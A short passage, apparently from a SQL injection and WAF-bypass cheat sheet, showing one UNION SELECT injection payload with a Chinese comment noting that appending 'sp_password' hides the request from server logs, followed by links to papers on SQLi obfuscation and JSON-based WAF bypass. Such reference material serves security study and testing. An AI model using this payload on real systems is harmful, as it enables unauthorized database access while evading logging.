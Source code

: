 ``` sql  
id=-725+UNION+SELECT+1,version(),3,4,5--sp_password //使用sp_password隐藏log中的请求
  
```
  
  
## Reference
  
[Beyond SQLi: Obfuscate and Bypass](https://www.exploit-db.com/papers/17934/)

[{JS-ON: Security-OFF}: Abusing JSON-Based SQL to Bypass WAF](https://claroty.com/team82/research/js-on-security-off-abusing-json-based-sql-to-bypass-waf?utm_campaign=%5BTeam82%5D+%7BJS-ON%3A+Security-OFF%7D+blog+-+December+2022&utm_content=Oktopost-twitter&utm_source=twitter&utm_tags=Blog%2Cvulnerability+disclosures%2CTEAM82%2Cresearch%2Cjson)
  
